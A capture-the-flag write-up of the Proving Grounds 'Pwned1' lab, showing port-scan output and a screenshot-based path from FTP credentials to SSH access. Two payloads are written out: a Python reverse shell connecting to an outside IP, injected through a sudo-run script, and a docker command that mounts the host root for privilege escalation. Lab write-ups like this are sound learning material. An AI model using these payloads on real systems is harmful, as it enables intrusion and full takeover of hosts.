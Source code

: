 ----------------

### CTF: Proving Grounds
### Lab: Pwned1

----------------

![image](https://github.com/user-attachments/assets/18f57589-c5bf-4539-aedc-79653559e814)

----------------

### Reconnaissance

- Rustscan's output

          ❯ rustscan -a 192.168.234.95 -- -Pn -sC -sV
          .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
          | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
          | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
          `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
          The Modern Day Port Scanner.
          ________________________________________
          : https://discord.gg/GFrQsGy           :
          : https://github.com/RustScan/RustScan :
           --------------------------------------
          🌍HACK THE PLANET🌍
          
          [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
          [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
          [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
          Open 192.168.234.95:22
          Open 192.168.234.95:21
          Open 192.168.234.95:80
          [~] Starting Script(s)
          [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
          
          Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
          [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-30 04:16 EDT
          NSE: Loaded 156 scripts for scanning.
          NSE: Script Pre-scanning.
          NSE: Starting runlevel 1 (of 3) scan.
          Initiating NSE at 04:16
          Completed NSE at 04:16, 0.00s elapsed
          NSE: Starting runlevel 2 (of 3) scan.
          Initiating NSE at 04:16
          Completed NSE at 04:16, 0.00s elapsed
          NSE: Starting runlevel 3 (of 3) scan.
          Initiating NSE at 04:16
          Completed NSE at 04:16, 0.00s elapsed
          Initiating Parallel DNS resolution of 1 host. at 04:16
          Completed Parallel DNS resolution of 1 host. at 04:16, 0.02s elapsed
          DNS resolution of 1 IPs took 0.02s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
          Initiating Connect Scan at 04:16
          Scanning 192.168.234.95 [3 ports]
          Discovered open port 22/tcp on 192.168.234.95
          Discovered open port 21/tcp on 192.168.234.95
          Discovered open port 80/tcp on 192.168.234.95
          Completed Connect Scan at 04:16, 0.15s elapsed (3 total ports)
          Initiating Service scan at 04:16
          Scanning 3 services on 192.168.234.95
          Completed Service scan at 04:17, 6.41s elapsed (3 services on 1 host)
          NSE: Script scanning 192.168.234.95.
          NSE: Starting runlevel 1 (of 3) scan.
          Initiating NSE at 04:17
          Completed NSE at 04:17, 6.67s elapsed
          NSE: Starting runlevel 2 (of 3) scan.
          Initiating NSE at 04:17
          Completed NSE at 04:17, 1.28s elapsed
          NSE: Starting runlevel 3 (of 3) scan.
          Initiating NSE at 04:17
          Completed NSE at 04:17, 0.00s elapsed
          Nmap scan report for 192.168.234.95
          Host is up, received user-set (0.14s latency).
          Scanned at 2024-09-30 04:16:58 EDT for 15s
          
          PORT   STATE SERVICE REASON  VERSION
          21/tcp open  ftp     syn-ack vsftpd 3.0.3
          22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
          | ssh-hostkey: 
          |   2048 fe:cd:90:19:74:91:ae:f5:64:a8:a5:e8:6f:6e:ef:7e (RSA)
          | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDaQPyAx8qSGlWyyuL5xu/6lWdbWs6VArMlRC71wt11kYKMGUTuVmPvLAdSAL66haaz0DCvquZMOmeYNHvM7/OjfmkwlIt3Wv53q/23AODRwPGkpj00QCNH/Vqt6Aw94Afo3etyW9SU3vzLC2F3mS18cqXApmV90NIH3d6ayhsDP+aPuQFoFqEzDxzy2RkosueaEERECT0auT+pTIwRMCHBEVX98Srd8+ax1yhWITRTGOYXcdocx0m9tooFUEH/a1P3RK3gBzCL63ZejMN9YofBl8y+CwCt+0nBLg+PtNjjskD9CaBwxUmH0/UM24z9BQecPn3IFmm3+P5U0z1DQEhf
          |   256 81:32:93:bd:ed:9b:e7:98:af:25:06:79:5f:de:91:5d (ECDSA)
          | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDHWpwgF92XD4REIANL7X9lMcQSwcbhlNqwBvNi8l4SzQn5MjSzlBQzgcC7Kro57lCr0kImH+XdijG+r6lyps70=
          |   256 dd:72:74:5d:4d:2d:a3:62:3e:81:af:09:51:e0:14:4a (ED25519)
          |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHPgRt1LF33Ttn5DuGuJJpmgbMd2ofAkqEt6gTOQK+WW
          80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
          |_http-server-header: Apache/2.4.38 (Debian)
          | http-methods: 
          |_  Supported Methods: HEAD GET POST OPTIONS
          |_http-title: Pwned....!!
          Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

- FFUF's output

![image](https://github.com/user-attachments/assets/29cfa229-23a8-424f-8693-fa43002fc684)

- Robots.txt reveals two hidden directories

![image](https://github.com/user-attachments/assets/e541a09d-7f8e-4ea1-a167-19355b60a497)

- `Hidden_text` directory contains a wordlist for directory fuzzing

![image](https://github.com/user-attachments/assets/49e8a81c-7c3e-4f3f-91d0-4a170d2d6968)

- I fuzzed for directories with the wordlist and got one file match.

![image](https://github.com/user-attachments/assets/79ebe5ad-2f70-4cc0-b359-d4588500b256)

- Checking the source of `pwned.vuln` reveals  ftp creds

![image](https://github.com/user-attachments/assets/cdefa81c-731e-4490-8dd3-eb91b43a17b9)

- Ftp acesss as ftp user

![image](https://github.com/user-attachments/assets/99a559df-4dcb-46d4-8390-f4a18d927ed5)

- The share directory contains a note.txt and an id_rsa file

![image](https://github.com/user-attachments/assets/2122b286-7e81-4f08-8409-9a892a2e165d)

- The note.txt points to a user `ariana`

![image](https://github.com/user-attachments/assets/1dce5721-fb14-462c-be47-c792418671d4)

- SSH access as user `ariana`

![image](https://github.com/user-attachments/assets/b3dab1fb-5643-4fa1-bd01-a7379f900004)


### Pivoting to user `selena`

- I ran `sudo -l` which shows that we can run a shell script as user `selena`.

![image](https://github.com/user-attachments/assets/980768fc-a372-470a-aeaa-d7078bb3a4e2)

- I checked the shell script and discovered that we can execute shell commands with string stored in variable `msg` which is executed when it gets to statement `$msg 2</dev/null`.

![image](https://github.com/user-attachments/assets/7252a0b1-5147-4aec-bf9c-0a4f5bc8879e)

- I created a bash script in directory `tmp` and added a rev bash shell code to it.I applied this method to call the script later in `messenger.sh`.

   PAYLOAD-:```echo "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.156\",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"bash\")'" > /tmp/script;chmod +x /tmp/script```

![image](https://github.com/user-attachments/assets/406269d1-bafa-46d1-bc63-c33bf8ce5dea)

- Shell as selena

![image](https://github.com/user-attachments/assets/f48f53ba-84d3-4e79-ac31-b534ce1e51b1)

### Privesc with group `docker`

- I ran command `id` and discovered that user `selena` is part of group `docker`.

![image](https://github.com/user-attachments/assets/8db07196-c4f9-4fe7-b4fb-d809b6609fc4)

- I used the payload to spawn a root shell with docker.
  Payload-:```docker run -v /:/mnt --rm -it alpine chroot /mnt bash```

- Root as docker with host root directory mounted in it

![image](https://github.com/user-attachments/assets/ba2d563b-5c52-41f7-aa34-38df0bb05937)

- Root

  ![image](https://github.com/user-attachments/assets/dd0bbaf2-3d0d-4f53-acdd-83885b5a47b5)














